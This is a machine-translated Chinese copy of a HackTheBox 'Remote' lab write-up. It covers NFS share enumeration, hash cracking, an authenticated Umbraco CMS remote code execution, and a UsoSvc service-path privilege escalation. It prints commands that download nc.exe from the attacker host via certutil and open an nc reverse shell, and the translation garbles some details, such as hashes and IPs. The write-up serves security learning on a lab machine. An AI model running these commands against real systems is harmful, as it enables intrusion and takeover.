# HTB 远程[报道]

> 原文：<https://infosecwriteups.com/htb-remote-writeup-eb18b1e09234?source=collection_archive---------0----------------------->

## NFS 检查、CMS 利用、UsoSvc 服务权限利用



## 摘要

查看 nmap 结果，对于初学者来说，有太多的端口让人应接不暇。经过一些枚举和检查后，发现 NFS 共享对网络上的任何人都是公开可用的。进一步挖掘发现了凭据，通过检查网站运行的 web 应用程序版本，很容易就发现了漏洞。利用该漏洞，用户机器被 pwn。对于根，再次使用 powershell 的程序快速检查，我们发现了导致成为根的服务漏洞和滥用！

**平台:** Windows

**使用的工具:**

*   `nmap`
*   `showmount -e 10.10.10.180`显示自 2049 端口开放以来的 NFS 股票
*   `mount 10.10.10.180:/site_backups site_backups/`将可用的共享目录挂载到主机上。
*   `john`破解哈希文件。
*   `powershell.exe`及其节目
*   漏洞利用: [Umbraco CMS 7.12.4](https://www.exploit-db.com/exploits/46153)
*   `sc.exe qc UsoSvc`获取更多关于服务的信息**‘us osvc’**

**CVE(美国)** [不适用](http://Umbraco CMS 7.12.4)

## 列举

Nmap TCP 扫描输出



## 据点

************港口 2049 装载/NFS * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

使用命令:`showmount -e 10.10.10.180`目录 **/site_backups** 被暴露，每个人都可以挂载它。



通过以下步骤挂载目录:

1.  在主机上创建一个目录，我们要在其中挂载上面找到的 **site_backups** 目录。

2.现在将目录挂载到我们新创建的目录中:

`mount 10.10.10.180:/site_backups site_backups/`



使用命令`grep -rl password`，我浏览了文件，并在 **App_Data/Umbraco.sdf.** 下找到了密码散列



SHA-1 哈希是*b8be 16 afba 8 c 314 ad 33d 812 f 22 a 04991 b 90 e 2 AAA*



现在我们有了散列，运行`John`Ripper 来破解密码散列。



*** * * * * * * * * * * * * *端口 80 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

在使用 dirsearch.py 搜索目录内容的过程中，我偶然发现了这个名字*‘um braco’*，并找到了它的登录门户:*http://10 . 10 . 10 . 180/um braco*



## 横向运动

使用找到的凭证，我登录了 umbraco CMS 帐户。



我查阅了 7.12.4 版本的 **Umbraco 漏洞利用**，发现了 [**漏洞利用**](https://www.exploit-db.com/exploits/46153) ，这是一个经过验证的远程代码执行。



## 反向外壳

使用登录凭据，我们现在可以运行该漏洞，在受害者的机器上上传 nc.exe，然后执行命令获得反向外壳。

**在运行以下命令之前，不要忘记在/etc/hosts 上设置本地 DNS。**

`python3 remoterce.py -u admin@htb.local -p baconandcheese -i [http://htb.local](http://htb.local) -c cmd.exe -a “/c certutil -urlcache -split -f [http://10.10.14.12/nc.exe](http://10.10.14.42/nc.exe) c:/windows/temp/nc.exe”`



现在启动一个监听端口，然后执行下面的命令。

`python3 remoterce.py -u admin@htb.local -p baconandcheese -i [http://htb.local](http://htb.local) -c cmd.exe -a “/c c:/windows/temp/nc.exe 10.10.14.42 7654 -e cmd.exe”`



然后我简单地运行了`powershell.exe`,虽然在这个阶段并不需要，因为 user.txt 可以很容易地访问，不需要任何进一步的努力。



# HTB 远程根

## 摘要

对于此 windows 计算机，发现有漏洞的服务(UsoSvc)正在以管理员权限运行。通过用恶意代码修改其二进制路径名，使 UsoSvc 服务执行根外壳，重新启动服务，根外壳在主机上执行，这是一个简单的利用漏洞攻击。

## **权限提升**

像往常一样，首先启用`powershell.exe`，然后在受害者的机器上下载`powerup.ps1`。

1.  `mkdir temp`在 **C:\** 档行驶。
2.  `wget [http://10.10.14.12/windows/powerup.ps1](http://10.10.14.12/windows/powerup.ps1) -o powerup.ps1`
3.  `Import-Module ./powerup.ps1`然后是`Import-Module .\powerup.ps1`
4.  `Invoke-AllChecks`



这里受影响的服务是 **UsoSvc** 。

使用以下命令检查 UsoSvc 服务的详细信息:

`sc.exe qc UsoSvc`

请注意，该服务是作为特权用户运行的。滥用这个漏洞可以让我们得到根外壳。



**第一步。**修改二进制路径注入恶意代码运行 netcat，在主机上执行反向 shell。



**第二步。**再次检查 UsoSvc 细节，查看二进制路径名是否已经更改



**第三步。**现在启动监听器端口。

**第四步。**停止 usosvc 服务，然后重新启动。这将允许在 10.10.14.14:3432 执行 `cmd.exe`



**成功！！！**

